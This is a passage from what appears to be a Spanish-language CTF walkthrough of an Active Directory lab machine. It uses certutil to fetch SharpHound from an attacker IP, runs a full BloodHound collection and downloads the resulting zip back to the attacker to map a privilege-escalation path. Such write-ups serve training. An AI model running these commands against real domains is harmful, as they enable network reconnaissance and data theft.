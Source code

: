 ```bash
certutil.exe -urlcache -split -f http://10.10.14.15/SharpHound.ps1 SharpHound.ps1
```


```bash
Import-Module .\SharpHound.ps1
```


```bash
Invoke-BloodHound -CollectionMethod All
```


Nos arroga un archivo.zip que luego no lo pasamos a la maquina atacate y de ahi lo cargamos en el `bloodhound` para interpetar los datos.


![list](/assets/img/forest/Kali-2022-09-14-00-12-45.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/forest/blood.png){:.lead width="800" height="100" loading="lazy"}


```powershell
download C://Users/svc_alfresco/Desktop/{archivo.zip} data.zip
```


Bloodhound nos muestra como el camino para convertirnos en superusuario.


Nos mustra ademas las acciones y coamdos que debemos tomar cara cosegirt el root.


![list](/assets/img/forest/blood2.png){:.lead width="800" height="100" loading="lazy"}
